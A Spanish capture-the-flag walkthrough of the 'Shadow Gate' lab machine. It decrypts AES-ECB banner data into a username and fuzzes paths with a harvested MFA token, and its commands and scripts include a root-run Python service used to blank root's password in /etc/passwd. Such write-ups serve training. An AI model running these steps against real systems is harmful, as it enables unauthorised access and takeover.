


Máquina **Shadow Gate** de la plataforma [The Hackers Labs](https://thehackerslabs.com/shadowgate)

| MAQUINA |  OS   | DIFICULTAD |  PLATAFORMA  |    IP     |
| :-----: | :---: | :--------: | :----------: | :-------: |
|   Shadow-Gate    | LINUX |   Avanzado    | The Hackers Labs | 192.168.56.21 |



# Reconocimiento

Comenzamos con un escaneo de `nmap` para encontrar los puertos abiertos de la máquina:

```css
nmap -p- --open --min-rate 5000 -sS -Pn -n -vvv 192.168.56.20 -oG allPorts
```

`-p-`: Englobar el rango total de puertos (1-65535).

`--open`: Mostrar solo los puertos que estén abiertos.

`--min-rate 5000`: Enviar paquetes no mas lento que 5000 paquetes por segundo.

`-sS`: Indicamos el modo de escaneo TCP SYN scan.

`-Pn`: No aplicar descubrimiento de hosts.

`-n`: No aplicar resolución DNS.

`-oG`: Exportar el escaneo en un formato específico.

Posteriormente, usamos `extracPorts` para copiarnos los puertos al clipboard y realizamos un escaneo mas exhaustivo a los puertos que nos reportaron inicalmente:

```css
extractPorts allPorts
```

```ruby
 [*] Extracting information...
 
     [*] IP Address: 192.168.56.20
     [*] Open ports: 22,8080,56789
 
 [*] Ports copied to clipboard
```

y realizamos el segundo escaneo:

```css
nmap -p22,8080,56789 -sCV 192.168.56.20 -oN targeted
```

`-sC`: Aplicar los scripts básicos de reconocimiento

`-sV`: Identificar los servicios corren en los puertos y sus versiones.

`-oN`: Exportarlo tal cual como se muestra por consola.

```ruby
# Nmap 7.95 scan initiated Sun May  4 18:41:52 2025 as: nmap -p22,8080,56789 -sVC -oN targeted 192.168.56.20
Nmap scan report for 192.168.56.20
Host is up (0.00056s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 84:05:fe:ed:47:16:ab:28:70:0f:44:6e:f6:8d:0c:6f (ECDSA)
|_  256 99:a9:88:76:ee:c8:ed:ce:73:57:2a:22:da:9f:7b:7e (ED25519)
8080/tcp  open  http       Werkzeug httpd 3.1.3 (Python 3.12.3)
|_http-title: 403 Forbidden
|_http-server-header: Werkzeug/3.1.3 Python/3.12.3
56789/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  4 18:42:04 2025 -- 1 IP address (1 host up) scanned in 11.82 seconds
```

## Puerto 56789

Al conectarnos con `netcat` al puerto 56789, vemos lo siguiente:

```css
❯ nc 192.168.56.20 56789
Shadow Gate v1.0 :: Not all doors are locked. Some wait for n0cturne. Listen closely—patterns hide in the noise. Sequence always matters.
test
Access denied. The gate remains closed.
❯ 
```

como dice "Some wait for n0cturne", probamos a escribir "n0cturne" y funciona:

```css
❯ nc 192.168.56.20 56789
Shadow Gate v1.0 :: Not all doors are locked. Some wait for n0cturne. Listen closely—patterns hide in the noise. Sequence always matters.
n0cturne
Shadow Gate v1.0 :: Not all doors are locked. Some wait for n0cturne. Listen closely—patterns hide in the noise. Sequence always matters.
YzRmN2QzNQ==
uxomFV7/fmbRfAoERH2aZw==
DcCeEH1OYei2Z71qrlUjcQ==
I7PX9ss8Uv/DM65hrTSeag==
eJIKMZKxGdG5CcxaldniOQ==
2+YfOPg2aynwZ35B4Tchsg==
ekD25jhdn3vEk4XFYd4Dow==
huSBj8DuKJ7qWxnXEreydg==
EiGroMLlb+DQKjSHJF9ZkA==
Connection closing...
❯ 
```

obtenemos varios textos en base64.

Si desciframos el primero, veremos lo siguiente:

```css
❯ echo 'YzRmN2QzNQ==' | base64 -d;echo
c4f7d35
❯ 
```

pero los otros nos darán un texto cifrado. Además de que cada vez que 'iniciamos sesión', vemos que el primer texto siempre es igual y los que están cifrados siempre cambian. Sabiendo esto, podemos intuir que el primer texto es la clave de cifrado y los otros los textos cifrados, también sabemos que es el modo `ECB` ya que no nos proporcionan un IV. Sabiendo todo esto crearemos un script que descifre cada uno de los textos:

```python
from Crypto.Cipher import AES
from hashlib import sha256
import base64
clave = 'c4f7d35'
textos = ['gyIc8gd8jUQ7C/7iFk6ycQ==', 'ZkaZD0jZIiDoS1qB44JCDA==', 'Fd3JYtkRfUxTvqncZCK1sA==', 'YXxxMKrF//kaZv92uG7zSQ==', 'jboxYrPZFgkz3kQ7P4buyA==', 'dhCRqabHpQ/WliKGAOsMDA==', 'TcGPQlI38MakzfGihxFmBA==', 'P7O2L3uFjeJiLdMJA9/QYg==']
def decrypt_text(text):
    clave_sha = sha256(clave.encode()).digest()
    c = AES.new(clave_sha, AES.MODE_ECB)
    b = base64.b64decode(text.encode())
    f = c.decrypt(b)
    f = f.decode()
    for l in f:
        print(l, end="")
        break
for text in textos:
    decrypt_text(text)

print("\n", end="")
```

este script nos imprime la primer letra de cada texto descifrado, ya que según el mensaje de el puerto 56789 el "patron" se encuentra escondido en el ruido, y probando varias veces con distintos textos cifrados que nos dan, la única letra que nunca cambia es la primera.

```css
❯ python3 decrypt.py
v4u1tgx9
❯ 
```

Este texto no nos sirve de nada, ya que al enviarlo por el puerto 56789 nos dice que es incorrecto. Viendo esto pasaremos al puerto 8080.

## Puerto 8080

Empezamos realizando fuzzing, ya que cualquier cosa que probamos nos da el código de estado 403.

```css
feroxbuster -u "http://192.168.56.20:8080/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -n --no-state
```

```css
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.20:8080/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c http://192.168.56.20:8080/
200      GET        1l        7w       39c http://192.168.56.20:8080/login
[####################] - 12s     220545/220545  13m     found:2       errors:0      
[####################] - 12s     220545/220545  280/s   http://192.168.56.20:8080/     
```

teniendo un login, probaremos a logearnos con el usuario que encontramos:

```css
❯ curl -s -X POST 'http://192.168.56.20:8080/login' -d "username=v4u1tgx9" -d "password="
Token dispatched. You just have to look... sideways.
❯ 
```

viendo el mensaje, le agregaremos un `-v` de verbose para poder ver las cabeceras:

sin logear:

```http
< HTTP/1.0 200 OK
< Server: Werkzeug/3.1.3 Python/3.12.3
< Date: Sun, 04 May 2025 22:40:58 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 33
< X-Shadow-Clue: wrHCp8O4wrXCtsOlw5/Dvg==
< Connection: close
Username rejected. Access denied.
```

logeado:

```http
< HTTP/1.0 200 OK
< Server: Werkzeug/3.1.3 Python/3.12.3
< Date: Sun, 04 May 2025 22:41:28 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 52
< X-Shadow-Clue: wrHCp8O4wrXCtsOlw5/Dvg==
< X-Shadow-MFA: 382592
< Connection: close
Token dispatched. You just have to look... sideways.
```

Como vemos en las cabeceras, cuando estamos logeados aparece `X-Shadow-MFA`, con un valor (en mi caso) `382592` que sería el token. Luego de probar un rato con el token, se me ocurre realizar fuzzing con el mismo pero especificando el token por POST, y como todas las rutas tienen código de estado 403 lo hice con un script (ya que las herramientas no me funcionaban):

```python
import requests
import sys
username = 'v4u1tgx9'
def main(token):
    try:
        with open(sys.argv[1], "r") as w:
            for path in w:
                if 'login' in path:
                    path += 'aaaaa'
                path = path.strip()
                main_url = f"http://192.168.56.20:8080/{path}"
                data = {
                    "username": f"{username}",
                    "token": f"{token}"
                }
                r = requests.post(main_url, data=data)
                if r.status_code != 403:
                    print(f"Path encontrado: {path}\n\nResponse:")
                    print(r.text)
    except KeyboardInterrupt:
        print("\n\n[!] Saliendo...")
        sys.exit(1)
def token():
    main_url = 'http://192.168.56.20:8080/login'
    data = {
        "username": "v4u1tgx9",
        "password": ""
    }
    r = requests.post(main_url, data=data)
    token = r.headers['X-Shadow-MFA']
    return token
if __name__ == '__main__':
    token = token()
    main(token)
```

el script se encarga de obtener el token y luego buscar la ruta en la que usar el token:

```css
❯ python3 fuzz.py /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
Path encontrado: verify

Response:
Acceso concedido. Servicio activo.

[!] Saliendo...
❯ 
```

de todos modos ya no nos sirve la ruta porque el script hizo lo único que teníamos que hacer con la ruta.

Ahora si volvemos a conectarnos al puerto 56789 nos dice lo siguiente:

```css
❯ nc 192.168.56.20 56789
Shadow Gate v1.0 :: Not all doors are locked. Some wait for n0cturne. Listen closely—patterns hide in the noise. Sequence always matters.
Shadow Gate v1.0 :: Not all doors are locked. Some wait for n0cturne. Listen closely—patterns hide in the noise. Sequence always matters.
SSH login for user mars
mars:sshpassword123
Connection closing...
```

# Intrusión

Ahora simplemente nos conectamos a la máquina usando las credenciales `mars:sshpassword123`

# Escalada de Privilegios

## Mars

Estando dentro podemos leer la flag de user:

```css
mars@TheHackersLabs-Shadowgate:~$ cat user.txt
********************************
mars@TheHackersLabs-Shadowgate:~$ 
```

Si recordamos el mensaje de `/verify`, decía algo de servicio activo y si revisamos los puertos abiertos desde la máquina vemos que el puerto 4444 está abierto:

```css
mars@TheHackersLabs-Shadowgate:~$ ss -tulun
Netid            State             Recv-Q            Send-Q                              Local Address:Port                          Peer Address:Port            Process            
tcp              LISTEN            0                 5                                       127.0.0.1:4444                               0.0.0.0:*                   
mars@TheHackersLabs-Shadowgate:~$ 
```

si nos conectamos desde la propia máquina usando netcat, veremos que nos imprime un `>>>`, que es el mismo prompt que al ejecutar `python3`:

```css
mars@TheHackersLabs-Shadowgate:~$ nc 127.0.0.1 4444
Welcome to Shadow Client Helper
This is an unrestricted environment. Good luck, hacker.
>>> 
mars@TheHackersLabs-Shadowgate:~$ python3
Python 3.12.3 (main, Feb  4 2025, 14:48:35) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 
mars@TheHackersLabs-Shadowgate:~$ 
```

sabiendo esto escribiremos código en python y veremos que pasa:

```css
mars@TheHackersLabs-Shadowgate:~$ nc 127.0.0.1 4444
Welcome to Shadow Client Helper
This is an unrestricted environment. Good luck, hacker.
>>> import os
>>> os.system("id > /tmp/id")
>>> 
mars@TheHackersLabs-Shadowgate:~$ cat /tmp/id 
uid=0(root) gid=0(root) groups=0(root)
mars@TheHackersLabs-Shadowgate:~$ 
```

y como vemos se ejecuta y además como root. Por lo que simplemente ejecutaremos el siguiente código para escalar a root:

```css
mars@TheHackersLabs-Shadowgate:~$ nc 127.0.0.1 4444
Welcome to Shadow Client Helper
This is an unrestricted environment. Good luck, hacker.
>>> import os
>>> os.system("sed 's/root:x:/root::/g' -i /etc/passwd")
>>> 
mars@TheHackersLabs-Shadowgate:~$ su
root@TheHackersLabs-Shadowgate:/home/mars# 
```

y seremos root.

## Root

Como usuario root podremos leer la flag de root:

```css
root@TheHackersLabs-Shadowgate:~# cat root.txt
********************************
root@TheHackersLabs-Shadowgate:~# 
```



Gracias por leer ;)
